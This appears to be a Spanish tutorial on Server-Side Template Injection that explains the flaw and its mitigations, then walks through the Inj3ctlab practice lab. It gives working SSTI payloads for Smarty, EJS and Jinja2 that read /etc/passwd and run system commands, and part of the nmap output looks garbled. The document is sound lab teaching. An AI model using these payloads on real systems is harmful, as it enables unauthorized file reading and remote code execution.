

Artículo que describe la vulnerabilidad SSTI y muestra, paso a paso, cómo resolver el laboratorio Inj3ctlab de Bug Bounty Labs para practicar SSTI en múltiples motores de plantillas.

## Tabla de contenido

## Que es SSTI?

La **Server-Side Template Injection (SSTI)** es una técnica que permite a un atacante inyectar y ejecutar código en el servidor a través de un motor de plantillas. Esto sucede cuando la aplicación mezcla entradas de usuario con las plantillas del lado del servidor sin realizar un control o sanitización adecuados. A continuación se describe cómo ocurre y qué implicaciones tiene:

1. **Contexto de la vulnerabilidad**  
   - En muchos entornos de desarrollo se utilizan motores de plantillas (por ejemplo, Jinja2 en Python, Twig en PHP, Freemarker en Java o EJS en Node.js) para generar contenido HTML en el servidor.  
   - Estos motores ofrecen la posibilidad de usar expresiones o lógica básica (cálculos, bucles, etc.) para procesar datos y generar la respuesta final.

2. **Causas de la inyección**  
   - La SSTI ocurre cuando una aplicación web inserta directamente una cadena proporcionada por el usuario dentro de la plantilla.  
   - Si el motor de plantillas evalúa esa cadena como código, se puede ejecutar lógica arbitraria en el servidor.  
   - Un ejemplo mínimo en Jinja2 sería pasar `{{ 7*7 }}` a la plantilla y observar si el resultado devuelto es `49`. Esto demuestra que el servidor está procesando activamente las expresiones.

3. **Fases de explotación**  
   1. **Detección**: El atacante introduce una sintaxis específica según el motor de plantillas para comprobar si la cadena es evaluada.  
   2. **Escalado**: Si la inyección funciona (por ejemplo, retorna un resultado numérico o expone objetos internos), el atacante intenta descubrir qué funcionalidades son accesibles (variables, funciones, módulos) dentro del entorno de ejecución.  
   3. **Ejecución de código**: En motores de plantillas con un alcance elevado, es posible llegar a ejecutar comandos del sistema operativo o acceder a recursos internos, desembocando en una **ejecución remota de código (RCE)**.

4. **Impacto en la seguridad**  
   - Compromiso total de la aplicación y del servidor, en el caso de que el motor permita la ejecución de código arbitrario.  
   - Acceso a datos sensibles, como información de configuración, credenciales o variables de entorno.  
   - Posibilidad de pivotar hacia otros sistemas conectados, si el servidor vulnerable tiene privilegios elevados o acceso a redes internas.

5. **Recomendaciones de mitigación**  
   - **Escapar y validar la entrada**: Asegurarse de que ninguna cadena de usuario se procese como parte de la sintaxis de la plantilla.  
   - **Configurar el motor de plantillas**: Deshabilitar o restringir las funcionalidades que permitan evaluación de código arbitrario o acceso a objetos internos.  
   - **Lógica del lado del servidor**: Separar las partes lógicas de la aplicación del contenido que proviene de usuarios, evitando el uso de eval o construcciones similares.  
   - **Actualizaciones y parches**: Mantener los motores de plantillas y el resto de la infraestructura al día con las últimas correcciones de seguridad.  
   - **Revisiones de seguridad**: Realizar pruebas específicas (fuzzing, pentesting) para detectar si la aplicación es vulnerable a SSTI.  

### Referencias SSTI

[Server-Side Template Injection: RCE for the Modern Web App](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf): Esta investigación profundiza en cómo las vulnerabilidades SSTI pueden llevar a la ejecución remota de código en aplicaciones web modernas, analizando diferentes motores de plantillas y proporcionando ejemplos detallados.
   
[A Pentester's Guide to Server-Side Template Injection (SSTI)](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti): Esta guía exhaustiva para profesionales de pruebas de penetración explora las técnicas de detección y explotación de SSTI, así como las mejores prácticas para su mitigación.

### Referencias a páginas de motores de plantillas

A continuación te proporciono un listado de motores de plantillas organizados por tecnologías, junto con enlaces a sus referencias oficiales:

**JavaScript:**

- **Handlebars.js:** Un motor de plantillas simple pero potente que permite la creación de plantillas semánticas.[Sitio oficial](https://handlebarsjs.com/)
- **Mustache.js:** Un motor de plantillas lógico que funciona en diversas plataformas.[Sitio oficial](https://mustache.github.io/)
- **EJS (Embedded JavaScript):** ermite generar HTML con JavaScript simple.[Sitio oficial](https://ejs.co/)
  
**Python:**

- **Jinja2:** Un motor de plantillas moderno para Python, utilizado frecuentemente con el framework Flask.[Sitio oficial](https://jinja.palletsprojects.com/)
- **Django Templates:** El sistema de plantillas integrado en el framework Django.[Documentación oficial](https://docs.djangoproject.com/en/stable/topics/templates/)
  
**Ruby:**

- **ERB (Embedded Ruby):** El sistema de plantillas predeterminado en Ruby on Rails.[Documentación oficial](https://ruby-doc.org/stdlib/libdoc/erb/rdoc/ERB.html)
- **Haml:** Un motor de plantillas que busca simplificar la sintaxis HTML.[Sitio oficial](http://haml.info/)
  
**PHP:**

- **Twig:** Un motor de plantillas flexible, seguro y rápido para PHP.[Sitio oficial](https://twig.symfony.com/)
- **Blade:** El motor de plantillas simple pero potente que viene con Laravel.[Documentación oficial](https://laravel.com/docs/stable/blade)
  
**Java:**

- **Thymeleaf:** Un motor de plantillas para Java orientado a la web y entornos standalone.[Sitio oficial](https://www.thymeleaf.org/)
- **FreeMarker:** Un motor de plantillas basado en Java para la generación de texto de salida como HTML.[Sitio oficial](https://freemarker.apache.org/)
  
**C#:**

- **Razor:** El motor de plantillas utilizado en ASP.NET para generar contenido dinámico en la web.[Documentación oficial](https://learn.microsoft.com/en-us/aspnet/core/mvc/views/razor)
  
**Go:**

- **Go Templates:** El paquete de plantillas nativo de Go para generar contenido dinámico.[Documentación oficial](https://pkg.go.dev/text/template)

Espero que este listado te sea de utilidad.


## Laboratorio Inj3ctlab de Bug Bounty Labs

**Inj3ctlab** es un laboratorio concebido para **practicar y perfeccionar** técnicas de Server-Side Template Injection en diferentes entornos. Desarrollado para **Bug Bounty Labs**, ofrece varios servicios en distintos puertos para simular situaciones reales. A través de escenarios concretos, los usuarios pueden:

- Identificar vectores de SSTI en 3 tecnologías (PHP, NodeJs y Python).  
- Aprender a escalar la inyección desde simples pruebas aritméticas hasta RCE (Remote Code Execution).  

El laboratorio proporciona un enfoque práctico y controlado, ideal para experimentar con distintas configuraciones y asegurar que los participantes adquieran experiencia realista en la detección de vulnerabilidades SSTI.

Levantamos el laboratorio siguiendo las instrucciones de [Bug Bounty Labs](https://bugbountylabs.com).



Obtenemos la dirección IP del laboratorio `127.17.0.2`.

### Enumeración

```bash
$ nmap -p- 172.17.0.2 -oN all_ports                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 21:22 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3000/tcp open  ppp
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

```


```bash
nmap -p80,3000,5000 -sVC 172.17.0.2 -oN specific_ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 21:22 CET
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: PHP App
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.9.2
|     Date: Sun, 02 Feb 2025 20:22:38 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 60524
|     Connection: close
|     <h1>Python App</h1>
|     `        | Hola, 49! |
| Python      | 5000   | `{{7*7}}`         | Hola, 49! |

### Detectar motor de plantilla que corren detras

Cada tecnología de backend (PHP, Node.js, Python, Java, ...) puede tener diferentes motores de plantillas (Smarty, EJS, ...), suelen ser más habituales unos motores en unas tecnologías, pero creadme hay inventos raros que permiten utilizar motores diseñados para PHP en Node.js (https://github.com/ecomfe/smarty4js), etc...

Ademas de las técnicas que se explican en las referencias anteriores, también podemos intentar comprender mejor como funciona cada motor de plantillas y utilizar posibles variables que solo aparezcan en cada uno de ellos.

Ejemplo:

| Tecnología  | Puerto | Payload enviado               | Resultado esperado                                    |
|:-----------:|--------|-------------------------------|-------------------------------------------------------|
| PHP         |   80   | `{$smarty.version}`           | Versión del motor de plantilla **Smarty**             |
| Node.js     | 3000   | `<%=JSON.stringify(locals)%>` | Todas las variables incluidas en la plantilla **EJS** |
| Python      | 5000   | `{{config}}`                  | Configuración de **Flask**                            |

Estos son solo unos ejemplos, consiste en conocer un poco cada motor de plantillas para identificarlos.

### Conseguir LFI (Local File Inclusion) y RCE (Remote Code Execution)

Ahora ya sabemos las tecnologías que están corriendo en el backend y también los payloads que nos permiten ejecutar PHP, Node.js y Python a traves de la inyección en la plantilla.

Pues precisamente las funciones, librerías y módulos de estas tecnologías son las que utilizaremos para conseguir un LFI i RCE.

#### Tabla ejemplos LFI

| Tecnología  | Puerto | Payload enviado                                                                                                  | Resultado                      |
|:-----------:|--------|------------------------------------------------------------------------------------------------------------------|--------------------------------|
| PHP         |   80   | `{file_get_contents("/etc/passwd")}`                                                                             | Fichero passwd                 |
| Node.js     | 3000   | `<%- include("/app/node-app/app.js")%>`                                                                          | Código fuente de la aplicación |
| Python      | 5000   | `{{'X'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}` | Fichero passwd                 |

Como se puede observar en **PHP** ha sido muy fácil, en **Node.js** con EJS, solo consigo obtener ficheros con extensiones del sistema, y en **Python** he seguido las instrucciones de **Ingo Kleiber** en su post [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/).

#### Tabla ejemplos RCE

| Tecnología  | Puerto | Payload enviado                                                                            |
|:-----------:|--------|--------------------------------------------------------------------------------------------|
| PHP         |   80   | `{exec("whoami")}`                                                                         |
| Node.js     | 3000   | ?                                                                                          |
| Python      | 5000   | `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}` |


En PHP con Smarty y Python con Flask ha sido fácil, pero con node.js y EJS no lo he conseguido.

A partir de aquí ya se podría crear una reverse-shell o cualquier otra cosa que quisieras ejecutar en el servidor.

Espero que este laboratorio y articulo sirva para que alguien aprenda algo sobre SSTI y las tecnologías de plantillas.

